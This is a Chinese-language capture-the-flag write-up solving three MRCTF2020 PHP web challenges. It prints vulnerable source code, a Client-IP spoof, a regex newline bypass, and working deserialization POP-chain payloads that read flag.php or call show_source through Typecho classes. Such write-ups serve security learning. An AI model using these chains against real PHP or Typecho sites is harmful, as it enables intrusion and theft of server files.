

## [MRCTF2020]Ezpop

```php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
} 
```

payload

```php
<?php
class Modifier {
    protected $var="php://filter/read=convert.base64-encode/resource=flag.php";
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $p;
}
$a=new Show();
$b=new Test();
$d=new Modifier();
$a->source=$a;
$a->str=$b;
$b->p=$d;

var_dump(urlencode(serialize($a)));
```

`?pop=O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Br%3A1%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7D`

## [MRCTF2020]套娃

第一关

```php
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

[https://www.php.net/manual/zh/reserved.variables.server.php](https://www.php.net/manual/zh/reserved.variables.server.php)

`QUERY_STRING`为查询字符串即`?b_u_p_t=xxx`

`QUERY_STRING`中不能包含`_`或者`%5f`(可以用`%5F`或者`.`代替,url编码不区分大小写)

`b_u_p_t`不能等于`23333`,但是正则匹配又要保证`23333`出现在一行中(`^`代表行首,`$`代表行尾),因此传入`23333\n`即可(`\n`用`%0a`代替)

第二关

jsfuck解码,提示传入`Merak`,得到源码

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?> 
```

使用`127.0.0.1`访问,xff无效,尝试`Client-IP`,成功得到回显


`file_get_contents`用`php://input`传参,file参数经过加密,得到`ZmpdYSZmXGI=`

```python
import base64
s = "flag.php"
re = ""
for i in range(len(s)):
    re += chr(ord(s[i]) - i * 2)

print(base64.b64encode(re.encode('utf-8')))
```



## [MRCTF2020]Ezpop_Revenge

> 题目显示为typecho同时名称为ezpop,推测可以直接利用typecho的pop漏洞

存在`www.zip`可以读取源码,发现其对typecho的源码进行了部分修改

首先可以知道flag在`flag.php`中,要构造pop链自然要有`unserialize`

运行`find . -name '*' | xargs grep unserialize`,剔除掉目录得到

```
./var/Widget/Options.php:            if ($themeOptions = unserialize($this->row['theme:' . $this->row['theme']])) {
./var/Widget/Options.php:        $this->plugins = unserialize($this->plugins);
./var/Widget/Options.php:        $this->routingTable = unserialize($this->routingTable);
./var/Widget/Options.php:            && false !== ($options = unserialize($this->row['plugin:' . $pluginName]))) {
./var/Widget/Options.php:            && false !== ($options = unserialize($this->row['_plugin:' . $pluginName]))) {
./var/Widget/Do.php:            $actionTable = array_merge($this->_map, unserialize($this->widget('Widget_Options')->actionTable));
./var/Widget/Menu.php:        $panelTable = unserialize($this->options->panelTable);
./var/Widget/Plugins/Edit.php:                    $value = unserialize($option['value']);
./var/Widget/Abstract/Contents.php:            $content = @unserialize($value['text']);
./var/Widget/Contents/Attachment/Edit.php:        $content = unserialize($this->attachment->__toString());
./var/Widget/XmlRpc.php:            $text = unserialize($post->text);
./var/Helper.php:        $actionTable = unserialize(self::options()->actionTable);
./var/Helper.php:        $actionTable = unserialize(self::options()->actionTable);
./var/Helper.php:        $panelTable = unserialize(self::options()->panelTable);
./var/Helper.php:        $panelTable = unserialize(self::options()->panelTable);
./var/Helper.php:        $panelTable = unserialize(self::options()->panelTable);
./var/Helper.php:        $panelTable = unserialize(self::options()->panelTable);
./var/Upgrade.php:                $attachment = unserialize($row['text']);
./usr/plugins/HelloWorld/Plugin.php:                            unserialize(base64_decode($_POST['C0incid3nc3']));
./admin/extending.php:$panelTable = unserialize($options->panelTable);
```

在`./usr/plugins/HelloWorld/Plugin.php`可能存在可以直接控制的反序列化

> 去除部分无用代码

```php
<?php
if (!defined('__TYPECHO_ROOT_DIR__')) exit;
/**
 * Hello World
 * 
 * @package HelloWorld 
 * @author qining
 * @version 1.0.0
 * @link http://typecho.org
 */
class HelloWorld_DB{
    private $flag="MRCTF{this_is_a_fake_flag}";
    private $coincidence;
    function  __wakeup(){
        $db = new Typecho_Db($this->coincidence['hello'], $this->coincidence['world']);
    }
}
class HelloWorld_Plugin implements Typecho_Plugin_Interface
{
	/*...*/
    public function action(){
        if(!isset($_SESSION)) session_start();
        if(isset($_REQUEST['admin'])) var_dump($_SESSION);
        if (isset($_POST['C0incid3nc3'])) {
			if(preg_match("/file|assert|eval|[`\'~^?<>$%]+/i",base64_decode($_POST['C0incid3nc3'])) === 0)
				unserialize(base64_decode($_POST['C0incid3nc3']));
			else {
				echo "Not that easy.";
			}
        }
    }
}
```

可以知道反序列化的第一步是传入参数,且其中不能包含敏感字符,然后调用`HelloWorld_DB::__wakeup`进入`Typecho_Db`,位于`./var/Typecho/Db.php`中,查看代码

```php
<?php
class Typecho_Db
{
    private $_adapter;
    private $_prefix;
    public function __construct($adapterName, $prefix = 'typecho_')
    {
        /** 获取适配器名称 */
        $this->_adapterName = $adapterName;

        /** 数据库适配器 */
        $adapterName = 'Typecho_Db_Adapter_' . $adapterName;

        if (!call_user_func(array($adapterName, 'isAvailable'))) {
            throw new Typecho_Db_Exception("Adapter {$adapterName} is not available");//__toString()
        }

        $this->_prefix = $prefix;

        /** 初始化内部变量 */
        $this->_pool = array();
        $this->_connectedPool = array();
        $this->_config = array();

        //实例化适配器对象
        $this->_adapter = new $adapterName();
    }
}
```

注意到`$adapterName = 'Typecho_Db_Adapter_' . $adapterName;`存在字符串操作

因此如果`$adapterName`是一个类且定义了`__tostring`方法即可进行调用(现在已经是相当于在复现typecho的pop漏洞了...)

在`Typecho_Feed`中存在`__tostring`方法,查看代码

```php
<?php
class Typecho_Feed
{
    /** 定义RSS 1.0类型 */
    const RSS1 = 'RSS 1.0';

    /** 定义RSS 2.0类型 */
    const RSS2 = 'RSS 2.0';

    /** 定义ATOM 1.0类型 */
    const ATOM1 = 'ATOM 1.0';

    /** 定义RSS时间格式 */
    const DATE_RFC822 = 'r';

    /** 定义ATOM时间格式 */
    const DATE_W3CDTF = 'c';

    /** 定义行结束符 */
    const EOL = "\n";

    private $_type;
    private $_items = array();

    /**
     * $item的格式为
     * <code>
     * array (
     *     'title'      =>  'xxx',
     *     'content'    =>  'xxx',
     *     'excerpt'    =>  'xxx',
     *     'date'       =>  'xxx',
     *     'link'       =>  'xxx',
     *     'author'     =>  'xxx',
     *     'comments'   =>  'xxx',
     *     'commentsUrl'=>  'xxx',
     *     'commentsFeedUrl' => 'xxx',
     * )
     * </code>
     *
     * @access public
     * @param array $item
     * @return unknown
     */
    public function addItem(array $item)
    {
        $this->_items[] = $item;
    }

    /**
     * 输出字符串
     *
     * @access public
     * @return string
     */
    public function __toString()
    {
        $result = '<?xml version="1.0" encoding="' . $this->_charset . '"?>' . self::EOL;

        if (self::RSS1 == $this->_type) {
            ...
        } else if (self::RSS2 == $this->_type) {
            $result .= '<rss version="2.0"
xmlns:content="http://purl.org/rss/1.0/modules/content/"
xmlns:dc="http://purl.org/dc/elements/1.1/"
xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
xmlns:atom="http://www.w3.org/2005/Atom"
xmlns:wfw="http://wellformedweb.org/CommentAPI/">
<channel>' . self::EOL;

            $content = '';
            $lastUpdate = 0;

            foreach ($this->_items as $item) {
                $content .= '<item>' . self::EOL;
                $content .= '<title>' . htmlspecialchars($item['title']) . '</title>' . self::EOL;
                $content .= '<link>' . $item['link'] . '</link>' . self::EOL;
                $content .= '<guid>' . $item['link'] . '</guid>' . self::EOL;
                $content .= '<pubDate>' . $this->dateFormat($item['date']) . '</pubDate>' . self::EOL;
                $content .= '<dc:creator>' . htmlspecialchars($item['author']->screenName) . '</dc:creator>' . self::EOL;

                if (!empty($item['category']) && is_array($item['category'])) {
                    foreach ($item['category'] as $category) {
                        $content .= '<category><![CDATA[' . $category['name'] . ']]></category>' . self::EOL;
                    }
                }

                if (!empty($item['excerpt'])) {
                    $content .= '<description><![CDATA[' . strip_tags($item['excerpt']) . ']]></description>' . self::EOL;
                }

                if (!empty($item['content'])) {
                    $content .= '<content:encoded xml:lang="' . $this->_lang . '"><![CDATA['
                    . self::EOL .
                    $item['content'] . self::EOL .
                    ']]></content:encoded>' . self::EOL;
                }

                if (isset($item['comments']) && strlen($item['comments']) > 0) {
                    $content .= '<slash:comments>' . $item['comments'] . '</slash:comments>' . self::EOL;
                }

                $content .= '<comments>' . $item['link'] . '#comments</comments>' . self::EOL;
                if (!empty($item['commentsFeedUrl'])) {
                    $content .= '<wfw:commentRss>' . $item['commentsFeedUrl'] . '</wfw:commentRss>' . self::EOL;
                }

                if (!empty($item['suffix'])) {
                    $content .= $item['suffix'];
                }

                $content .= '</item>' . self::EOL;

                if ($item['date'] > $lastUpdate) {
                    $lastUpdate = $item['date'];
                }
            }

            $result .= '<title>' . htmlspecialchars($this->_title) . '</title>
<link>' . $this->_baseUrl . '</link>
<atom:link href="' . $this->_feedUrl . '" rel="self" type="application/rss+xml" />
<language>' . $this->_lang . '</language>
<description>' . htmlspecialchars($this->_subTitle) . '</description>
<lastBuildDate>' . $this->dateFormat($lastUpdate) . '</lastBuildDate>
<pubDate>' . $this->dateFormat($lastUpdate) . '</pubDate>' . self::EOL;

            $result .= $content . '</channel>
</rss>';

        } else if (self::ATOM1 == $this->_type) {
        	...
        }
}

```

当`self::RSS2 == $this->_type`时,会执行`$content .= '<dc:creator>' . htmlspecialchars($item['author']->screenName) . '</dc:creator>' . self::EOL;`

注意此时还要对`_item`中的`title`,`link`,`date`,`category`进行赋值,不然会返回`DATABASE ERROR`

假设`$item['author']`指向某一个类,而这个类中没有`screenName`变量,且定义了`__get`方法即可进行调用

在`Request.php`中存在`__get`方法,查看代码

```php
<?php
class Typecho_Request
{
    /**
     * 内部参数
     *
     * @access private
     * @var array
     */
    private $_params = array();
    private $_filter = array();
    private function _applyFilter($value)
    {
        if ($this->_filter) {
            foreach ($this->_filter as $filter) {
                call_user_func($filter, $value);
            }

            $this->_filter = array();
        }

        return $value;
    }

    public function __get($key)
    {
        return $this->get($key);
    }


    public function get($key, $default = NULL)
    {
        switch (true) {
            case isset($this->_params[$key]):
                $value = $this->_params[$key];
                break;
            case isset(self::$_httpParams[$key]):
                $value = self::$_httpParams[$key];
                break;
            default:
                $value = $default;
                break;
        }

        return $this->_applyFilter($value);
    }
}

```

调用`__get`然后调用`get`然后调用`_applyFilter`,注意到`_applyFilter`中存在`call_user_func`这就是pop链构造的目标

```php
<?php
class HelloWorld_DB{
    private $coincidence=array();
    public function __construct(){
        $this->coincidence['hello']=new Typecho_Feed();
        $this->coincidence['world']='typecho_';
    }
}
class Typecho_Feed{
    const RSS1 = 'RSS 1.0';
    const RSS2 = 'RSS 2.0';
    const ATOM1 = 'ATOM 1.0';
    const DATE_RFC822 = 'r';
    const DATE_W3CDTF = 'c';
    const EOL = "\n";
    private $_items=array();//foreach ($this->_items as $item)
    private $_type;
    public function __construct(){
        $this->_type = $this::RSS2;
        $this->_items[0]=array('title'=>'1','link'=>'1','date'=>1508895132,'category'=>array(new Typecho_Request()),'author'=>new Typecho_Request());//$item['author']->screenName
    }
    
}
class Typecho_Request{
    private $_filter=array();//foreach ($this->_filter as $filter)
    private $_params=array();
    public function __construct(){
        $this->_params['screenName']=-1;//screenName为参数
        $this->_filter[0]="phpinfo";//函数名
    }
}

$a=new HelloWorld_DB();

var_dump($a);

var_dump(base64_encode(serialize($a)));
```

最后一个问题,怎样对`HelloWorld_Plugin::action`进行调用呢

在`/var/Typecho/Plugin.php`,有这样一句代码`Helper::addRoute("page_admin_action","/page_admin","HelloWorld_Plugin",'action');`

访问`/page_admin`即可调用`HelloWorld_Plugin::action`


成功执行`phpinfo(-1)`

尝试使用`show_source`进行文件读取

```php
<?php
class HelloWorld_DB{
    private $coincidence=array();
    public function __construct(){
        $this->coincidence['hello']=new Typecho_Feed();
        $this->coincidence['world']='typecho_';
    }
}
class Typecho_Feed{
    const RSS1 = 'RSS 1.0';
    const RSS2 = 'RSS 2.0';
    const ATOM1 = 'ATOM 1.0';
    const DATE_RFC822 = 'r';
    const DATE_W3CDTF = 'c';
    const EOL = "\n";
    private $_items=array();//foreach ($this->_items as $item)
    private $_type;
    public function __construct(){
        $this->_type = $this::RSS2;
        $this->_items[0]=array('title'=>'1','link'=>'1','date'=>1508895132,'category'=>array(new Typecho_Request()),'author'=>new Typecho_Request());//$item['author']->screenName
    }
    
}
class Typecho_Request{
    private $_filter=array();//foreach ($this->_filter as $filter)
    private $_params=array();
    public function __construct(){
        $this->_params['screenName']="flag.php";//screenName为参数
        $this->_filter[0]="show_source";//函数名
    }
}

$a=new HelloWorld_DB();

var_dump($a);

var_dump(base64_encode(serialize($a)));
```

`TzoxMzoiSGVsbG9Xb3JsZF9EQiI6MTp7czoyNjoiAEhlbGxvV29ybGRfREIAY29pbmNpZGVuY2UiO2E6Mjp7czo1OiJoZWxsbyI7TzoxMjoiVHlwZWNob19GZWVkIjoyOntzOjIwOiIAVHlwZWNob19GZWVkAF9pdGVtcyI7YToxOntpOjA7YTo1OntzOjU6InRpdGxlIjtzOjE6IjEiO3M6NDoibGluayI7czoxOiIxIjtzOjQ6ImRhdGUiO2k6MTUwODg5NTEzMjtzOjg6ImNhdGVnb3J5IjthOjE6e2k6MDtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czoxMToic2hvd19zb3VyY2UiO31zOjI0OiIAVHlwZWNob19SZXF1ZXN0AF9wYXJhbXMiO2E6MTp7czoxMDoic2NyZWVuTmFtZSI7czo4OiJmbGFnLnBocCI7fX19czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjExOiJzaG93X3NvdXJjZSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjg6ImZsYWcucGhwIjt9fX19czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo3OiJSU1MgMi4wIjt9czo1OiJ3b3JsZCI7czo4OiJ0eXBlY2hvXyI7fX0=`


> 彩蛋

实际上过滤的敏感词要比泄漏的源码要多

